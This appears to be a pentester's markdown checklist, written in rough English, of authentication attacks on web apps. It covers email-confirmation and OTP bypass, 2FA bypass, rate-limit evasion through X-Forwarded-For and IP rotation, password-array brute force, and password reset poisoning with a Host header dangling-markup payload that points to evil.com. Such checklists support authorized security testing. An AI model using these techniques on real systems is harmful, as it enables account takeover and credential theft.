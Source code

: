 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reseting password intercept request to burp and see if you cloud add <a href> tag and see in email if there anything changes. 

> Authentication:
	- Bypass Rate Limit with X-Forwarded-For: to pwn authentication
	- Host header injeciton in forgot password page
	- Test Remember me functionality
	- Test password reset and/or recovery
	- 2FA Bypass
		- Access the content directly (site.com/profile)
		- Login using Oauth gmail or FB to bypass 2FA
		- Reset Password and login inoto the account to bypass 2FA 
		- Use old toke or change the response
	- Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
	- Web Cache deception [site.com/profile/min.js]
	- PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
	- While resetting password change the host header to your server (VPS) = secret link to your VPS
	- Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
	- Password reset poisoning via dangling markup
		Host: victim.com:'<a href="//evil.com/? 

	- Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

	- Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

	- replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

	- If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in automatically before sending each request.)
	
